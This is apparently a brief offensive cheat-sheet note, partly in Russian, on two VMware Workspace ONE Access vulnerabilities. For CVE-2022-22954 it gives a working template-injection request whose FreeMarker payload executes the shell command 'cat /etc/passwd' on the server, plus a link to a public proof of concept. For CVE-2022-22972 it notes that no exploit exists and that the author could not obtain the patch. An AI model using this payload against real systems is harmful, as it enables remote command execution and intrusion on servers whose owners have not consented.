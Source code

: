 # Workspace ONE Access

## CVE-2022-22954: SSTI

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```

PoC: [https://github.com/sherlocksecurity/VMware-CVE-2022-22954](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)

## CVE-2022-22972: Auth Bypass

На Linux серверах. Вероятно связан с VMWare Horizon. Эксплоита нет, патч вышел, скачать не могу: [https://kb.vmware.com/s/article/88438](https://kb.vmware.com/s/article/88438)
